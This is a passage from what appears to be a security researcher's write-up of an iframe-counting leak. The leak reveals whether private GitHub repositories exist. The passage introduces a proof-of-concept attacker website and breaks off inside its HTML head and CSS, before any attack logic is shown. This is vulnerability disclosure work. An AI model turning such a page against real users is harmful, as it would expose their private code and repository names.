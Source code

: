 <img src="/assets/img/case1.png" alt="Case 1" style="display: block; max-width:80%;height:auto;"/>
- When **0 iframes** are loaded, then the repository does not exists.


<h2 class="introfont" style="font-size: 2em!important;">Exploit</h2>


With that conditions in mind, I coded a PoC as an example of a potential attacker website to show how to expose private repositories and files in a private github repository:

{% highlight html %}
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>GitHub PoC</title>
    <style>
      *
      {
        background-color: black;
        color: white;
        font-size: 35px;
      }

      span
      {
        font-weight: bold;
        color: green;
      }

      .repos
      {
        border: 1px solid red;
        font-weight: bold;